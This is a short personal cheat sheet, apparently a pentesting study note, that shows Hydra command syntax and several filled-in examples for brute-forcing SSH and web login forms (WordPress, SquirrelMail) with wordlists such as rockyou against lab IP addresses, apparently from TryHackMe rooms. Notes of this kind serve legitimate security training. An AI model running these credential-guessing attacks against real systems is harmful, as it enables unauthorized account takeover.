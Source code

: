 ```yaml
---
id: hydra
aliases: []
tags: []
---
```


Usage:

For services:
`$ hydra -L <file of usernames> -P <file of passwords> <target IP> <target service>`
`$ hydra -l <username> -p <password> <target IP> <target service>`

e.g.

`$ hydra -l jan -P /usr/share/wordlist/rockyou.txt 10.10.167.172 ssh`
`$ hydra -l jack -P passwordList.txt 10.10.130.238 ssh -s 80`

For http-form:
`$ hydra -L <file of usernames> -P <file of passwords> <target IP> -V http-form-post '[endpoint]:[user_post_var]=^USER^&[password]=^PASS^:[fail response]'`

e.g.

`$ hydra -l Elliot -P ~/Cybersec/boxes/THM/easy/MrRobot/pruned_list.dic  10.10.134.143 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In'`

`$ hydra -L users -P /usr/share/wordlists/rockyou.txt  10.10.244.75 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'`

`$ hydra -l milesdyson -P logs/log1.txt 10.10.64.219 -V http-form-post "/squirrelmail/src/login.php:login_username=^USER^&secretkey=^PASS^:incorrect"`

`$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.0.109 -V http-form-post "/blog/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Finternal.thm%2Fblog%2Fwp-admin%2F&testcookie=1:F=incorrect"`

`$ hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 10.10.22.145 -V http-form-post ‘/login.php:username=^USER^&password=^PASS^:Invalid’`
